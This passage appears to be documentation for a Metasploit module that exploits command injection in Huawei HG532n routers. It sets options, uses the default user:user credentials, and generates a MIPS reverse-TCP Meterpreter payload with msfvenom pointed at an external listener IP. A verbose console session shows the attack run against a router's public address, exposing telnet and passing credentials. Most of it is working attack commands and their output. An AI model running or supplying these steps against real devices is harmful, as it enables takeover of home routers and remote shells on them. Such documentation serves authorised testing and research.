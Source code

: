 - Set `LPORT` to an arbitrary port number that is accessible from outside
  networks. Metasploit will open a listener on that port and wait for the
  payload to connect back to us.

- Set `VERBOSE` to `true` if you want to see much more verbose output (Detailed
  injected telnet commands output).

TE-Data firmware ships with the `user:user` login credentials by default.
They offer limited functionality, but they are enough for our purposes.
In case you want want to change these, set `HttpUsername` and `HttpPassword`
appropriately.

Now everything should be ready to run the exploit. Enjoy your Meterpreter
session :-)

Alternatively, you can avoid hosting the payload executable from within the
module's own HTTP server and host it externally. To do so, first generate
the payload ELF executable using `msfvenom`:

```
$ msfvenom --format elf --arch mipsbe --platform linux --payload linux/mipsbe/mettle/reverse_tcp --out payload.elf LHOST='41.34.32.121' LPORT=4444

No encoder or badchars specified, outputting raw payload
Payload size: 212 bytes
Final size of elf file: 296 bytes
Saved as: payload.elf
```

Then host the `payload.elf` file on an external, direct-access, web
server. Afterwards set `DOWNHOST` to the external server's IP address
and `DOWNFIILE` to the payload's path on that server. Run the exploit
afterwards.


## Live Scenario (Verbose)

```
$ msfconsole
msf > use exploit/linux/http/huawei_hg532n_cmdinject

msf exploit(huawei_hg532n_cmdinject) > set RHOST 197.38.98.11
RHOST => 197.38.98.11

msf exploit(huawei_hg532n_cmdinject) > set SRVHOST 41.34.32.121
SRVHOST => 41.34.32.121

msf exploit(huawei_hg532n_cmdinject) > set LHOST 41.34.32.121
LHOST => 41.34.32.121

msf exploit(huawei_hg532n_cmdinject) > set VERBOSE true
VERBOSE => true

msf exploit(huawei_hg532n_cmdinject) > exploit
[*] Exploit running as background job.
msf exploit(huawei_hg532n_cmdinject) >
[-] Handler failed to bind to 41.34.32.121:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Validating router's HTTP server (197.38.98.11:80) signature
[+] Good. Router seems to be a vulnerable HG532n device
[+] Telnet port forwarding succeeded; exposted telnet port = 33552
[*] Connecting to just-exposed telnet port 33552
[+] Connection succeeded. Passing telnet credentials
[*] Received new reply token = '����
Password:'
[*] Received new reply token = 'Password:'
[+] Credentials passed; waiting for prompt 'HG520b>'
```